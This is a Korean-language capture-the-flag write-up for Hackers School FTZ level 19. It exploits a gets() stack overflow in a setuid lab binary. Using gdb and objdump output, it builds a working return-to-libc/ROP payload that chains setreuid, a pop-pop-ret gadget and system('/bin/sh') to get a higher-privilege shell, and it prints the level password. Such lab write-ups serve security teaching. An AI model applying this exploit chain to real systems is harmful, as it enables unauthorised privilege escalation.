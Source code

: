 ```yaml
---
sort: 19
---
```


# Level 19

```note
id : level19

password : swimming in pink
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 조져보자.

```c
main()
{ char buf[20];
  gets(buf);
  printf("%s\n",buf);
}
```

간단한 bof문제이다. 하지만 setuid가 걸려있지 않기 때문에 단순히 쉘코드를 입력하면 쉘을 얻더라도 권한이 그대로인 쉘을 획득한다.<br>
따라서 system을 통해 쉘을 실행하기 전에 `setreuid(level20's uid)`를 해줘야한다.<br><br>
먼저 main함수의 return address를 조지기 위해 buf의 위치를 파악한 후 padding길이를 구한다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048440 (main+0):	push   %ebp
0x08048441 (main+1):	mov    %esp,%ebp
0x08048443 (main+3):	sub    $0x28,%esp
0x08048446 (main+6):	sub    $0xc,%esp

<b>0x08048449 (main+9):	lea    0xffffffd8(%ebp),%eax
0x0804844c (main+12):	push   %eax
0x0804844d (main+13):	call   0x80482f4 (gets) </b>

0x08048452 (main+18):	add    $0x10,%esp
0x08048455 (main+21):	sub    $0x8,%esp
0x08048458 (main+24):	lea    0xffffffd8(%ebp),%eax
0x0804845b (main+27):	push   %eax
0x0804845c (main+28):	push   $0x80484d8
0x08048461 (main+33):	call   0x8048324 (printf)
0x08048466 (main+38):	add    $0x10,%esp
0x08048469 (main+41):	leave  
0x0804846a (main+42):	ret
</pre>

id 명령어를 이용해 level20의 uid 값을 구한 후, objdump를 통해 setreuid, system 함수, "/bin/sh"의 위치를 알아낸다.<br>
level11에서 system함수, "/bin/sh"의 위치를 알아낼 때처럼 똑같이 하면 된다.

```bash
[level19@ftz tmp]$ id level20
uid=3100(level20) gid=3100(level20) groups=3100(level20)
[level19@ftz tmp]$ ldd ../attackme 
	libc.so.6 => /lib/tls/libc.so.6 (0x42000000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
[level19@ftz tmp]$ objdump -d /lib/tls/libc.so.6

... (중략) ...

420d7920 <setreuid>:
420d7920:       55                      push   %ebp
420d7921:       89 e5                   mov    %esp,%ebp
420d7923:       53                      push   %ebx
420d7924:       8b 55 08                mov    0x8(%ebp),%edx
420d7927:       e8 91 da f3 ff          call   420153bd <__i686.get_pc_thunk.bx>

... (후략) ...
```

우선 아래와 같이 먼저 setreuid를 호출하도록 했다. 그러나 setreuid를 호출한 후에 system함수를 호출하기 위해서는 setreuid함수가 끝난 후 esp값을 조율해주어야한다.<br>
esp가 system을 가리키도록 하기 위해서 pop pop ret 가젯을 찾아서 setreuid의 return address에 넣어준다. 이런식으로 ret으로 끝나는 가젯을 찾아서 실행시키는 것을 Return Oriented Programming (ROP)라고 한다.

<img src="/picture/hacker_school/ftz/level19_1.png" width="1000"/>
<img src="/picture/hacker_school/ftz/level19_2.png" width="700"/>


```asm
42015635:       5b                      pop    %ebx
42015636:       5d                      pop    %ebp
42015637:       c3                      ret
```

아래와 같이 payload를 구성하면 쉘을 딸 수 있다.

```bash
# 0x2c byte padding + setreuid + ret addr (pop pop ret gadget) + 3100 (level20's uid) + 3100 + system + 4 byte padding + addr of "/bin/sh"
[level19@ftz level19]$ (python -c "print('A'*0x2c+'\x20\x79\x0d\x42\x35\x56\x01\x42\x1c\x0c\x00\x00\x1c\x0c\x00\x00\xc0\xf2\x03\x42\x41\x41\x41\x41\xa4\x7e\x12\x42\n')";cat) | ./attackme 
B5VBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA y

my-pass
```

```tip
## 알게 된 점

buffer overflow, Return Oriented Programming (ROP)
```